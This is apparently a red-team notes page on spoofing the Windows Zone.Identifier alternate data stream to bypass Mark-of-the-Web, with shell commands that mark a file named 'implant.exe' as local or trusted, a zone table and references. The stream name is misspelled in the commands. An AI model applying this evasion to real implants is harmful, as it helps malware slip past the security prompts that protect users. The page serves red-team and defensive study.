 # 03 - Spoof ZoneTransfer (MOTW Bypass)

Search Tag(s): #initial-access #defense-evasion #windows #scenarios

```
$ echo -e "[ZoneTransfer]\nZoneId=0" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=1" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=2" > /mnt/ntfs/implant.exe:Zone.Identifer
```

Unmount the container.

```
$ sudo umount /mnt/ntfs/
```

---
## References

- [[Alternate Data Streams|Windows: Hide Artifacts]]

- [Red Canary: Mark-of-the-Web Bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)

- [SecurityLiterate.com: How Malware Abuses the Zone Identifier to Circumvent Detection and Analysis](https://securityliterate.com/how-malware-abuses-the-zone-identifier-to-circumvent-detection-and-analysis/)

### Table Reference

| Zone Identifier | Description                                                                                                           |
| :-------------: | --------------------------------------------------------------------------------------------------------------------- |
|        0        | File originates from the local machine. It has the least security restriction.                                        |
|        1        | File originated from the local intranet (local network). Both zone identifier 0 and 1 indicate a high level of trust. |
|        2        | Indicates the file was downloaded from a trusted site. This can spoofed by attackers by manipulating the ADS.         |
|        3        | Indicates the file was downloaded from the internet and it is generally untrusted.                                    |
|        4        | Indicates that the file came from a likely unsafe source.                                                             |
